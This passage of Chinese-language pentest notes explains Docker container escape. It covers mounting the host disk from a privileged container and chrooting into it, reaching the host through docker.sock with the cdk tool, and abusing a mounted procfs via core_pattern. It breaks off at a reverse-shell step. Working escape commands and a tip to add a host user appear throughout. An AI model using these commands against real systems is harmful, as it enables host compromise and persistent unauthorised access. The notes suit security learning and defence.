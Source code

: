 因为网上有太多相关的文章了，这里就不赘述了

不仅如此也有很多类似 Dirtycow DirtyPipe 的，本身内核级别的漏洞，对 docker 的影响也是致命的，

云安全 Wiki 上具体列了很多可能造成的 CVE

[https://wiki.teamssix.com/CloudNative/Docker/docker-escape-vulnerability-summary.html](https://wiki.teamssix.com/CloudNative/Docker/docker-escape-vulnerability-summary.html)

#### 特权模式启动

如果容器 docker run --rm --privileged -it 使用--privileged 形式启动，容器是可以访问宿主机的磁盘的，这样就可以挂载宿主机逃逸

判断方法很简单 fdisk -l 查看是否可以访问磁盘

cat /proc/self/status | grep CapEff 或者查看 CapEff 值判断是不是特权值 0000003fffffffff

可以通过以下命令简单的挂载逃逸

```bash
mkdir /tmp/1
fdisk -l
mount /dev/sda1 /tmp/1
cd /tmp/1
chroot ./ bash
```

在真实场景我们可以通过 useradd 添加用户

#### 寻找 docker.sock 文件

这种情况下一般没有客户端

```bash
ls /var/run/ | grep -i docker.sock
```

查找然后可以进行 docker -H 的链接

出网情况下可以直接安全 不出网情况下，我们可以通过 cdk 模块发包

```bash
./cdk ucurl get /var/run/docker.sock http://127.0.0.1/info ""
```

#### **Procfs 目录挂载**

procfs 是一个伪文件系统，它动态反映着系统内进程及其他组件的状态

本身场景很少，一般很少会把 procfs 挂载到宿主机

一般检测是能否找到两个 core\_pattern 文件

```bash
find / -name core_pattern
```

利用思路相对比较复杂

1.寻找容器在宿主机上的目录路径

2.在/tmp 下反弹脚本
